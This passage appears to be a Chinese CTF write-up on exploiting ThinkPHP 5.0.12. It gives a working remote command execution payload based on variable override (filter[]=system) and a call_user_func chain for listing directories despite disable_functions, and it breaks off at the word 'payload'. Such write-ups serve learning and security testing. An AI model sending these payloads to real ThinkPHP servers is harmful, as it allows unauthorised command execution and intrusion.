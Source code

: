 ```python
print(payload)
```

###  成全
先随便传个参数
![在这里插入图片描述](https://img-blog.csdnimg.cn/7671c970a32742678072db7789fe2481.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAWjNleU9uZA==,size_20,color_FFFFFF,t_70,g_se,x_16)
看到版本是`5.0.12`，找网上的payload
####  利用命令执行
网上有个变量覆盖的远程命令执行payload
URL：http://tp5019.com/index.php
POST请求
```php
_method=__construct&method=GET&filter[]=system&s=whoami
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/b9e4f6a5ccec48b38a43ca2a9af31948.png)
存在`disable_functions`，这儿我们利用`call_user_func`可以绕过
![在这里插入图片描述](https://img-blog.csdnimg.cn/555fd80d7e3144168bf75fd5d12b9296.png)
果然是这样，所以我们想想能不能用`call_user_func`读取目录
`call_user_func`，它会将第一个参数作为回调函数，第二个参数作为参数执行

```php
 private function filterValue(&$value, $key, $filters)
    {
        $default = array_pop($filters);
        foreach ($filters as $filter) {
            if (is_callable($filter)) {
                // 调用函数或者方法过滤
                $value = call_user_func($filter, $value);
            } elseif (is_scalar($value)) {
                if (false !== strpos($filter, '/')) {
                    // 正则过滤
                    if (!preg_match($filter, $value)) {
                        // 匹配不成功返回默认值
                        $value = $default;
                        break;
                    }
                } elseif (!empty($filter)) {
```
其中`foreach`有用，我们尝试用套娃，
先测试下：

```php
<?php
$b = call_user_func('scandir','../');
call_user_func('print_r',$b);
?>
```
我们就先传入一个filter[]=scandir&get[]=/，那么现在的\$value就是call_user_func('scandir','/');了，这时候再来一个filter[]=var_dump，foreach把\$filter的值覆盖为var_dump，实现变量覆盖了，那么就是：
```php
call_user_func(var_dump, call_user_func('scandir','/'));
```
payload
